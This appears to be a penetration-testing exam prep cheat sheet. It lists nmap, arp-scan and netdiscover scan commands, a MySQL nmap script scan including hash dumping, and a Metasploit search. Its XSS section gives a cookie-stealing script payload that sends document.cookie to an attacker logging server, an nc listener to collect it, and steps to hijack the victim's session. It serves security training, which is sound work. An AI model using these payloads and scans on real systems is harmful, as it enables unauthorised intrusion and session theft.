 # Exam Prep

### Discovering Hosts

* `fping -a -g 192.168.0.1/24 2>/dev/null` - using fping utility.
* `sudo netdiscover -i eth0 -r 192.168.0.1/24` - using netdiscover utility.
* `sudo arp-scan -I eth0 -g 192.168.0.1/24` - using arp-scan utility.
* `nmap -sn -T4 192.168.0.1/24 -oG - | awk '/Up$/{print $2}'` - using nmap utility.

### Open TCP Ports Scan

* `nmap -Pn -n -T4 -sV -p- $ip --open` -**1st scan**, `--max-scan-delay 0` - optional.
* `nmap -Pn -n -T4 -p-  -A -oN indepth_scan.txt` - **2nd scan.**

### Open Udp Ports Scan

* `nmap -sU -sV 10.10.10.0/24` - UDP scan, add other options if needed.

### XSS

{% code overflow="wrap" lineNumbers="true" %}
```bash
check example:

<script>alert("hack :)")</script>

hijack cookie through xss

there are four components as follows:

    attacker client pc
    attacker logging server
    vulnerable server
    victim client pc

    attacker: first finds a vulnerable server and its breach point.

    attacker: enter the following snippet in order to hijack the cookie kepts by victim client pc (p.s.: the ip address, 192.168.99.102, belongs to attacker logging server in this example):

<script>var i = new Image();i.src="http://192.168.99.102/log.php?q="+document.cookie;</script>

    attacker: log into attacker logging server (P.S.: it is 192.168.99.102 in this example), and execute the following command:

nc -vv -k -l -p 80

    attacker: when victim client pc browses the vulnerable server, check the output of the command above.

    attacker: after obtaining the victim's cookie, utilize a firefox's add-on called Cookie Quick Manager to change to the victim's cookie in an effort to hijack

    the victim's privilege.


```
{% endcode %}

### mysql

scan:

{% code overflow="wrap" %}
```
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.10.10.13
```
{% endcode %}

### msfconsole

search exploit

```
msf> search cve:2011 port:135 platform:windows target:XP
```
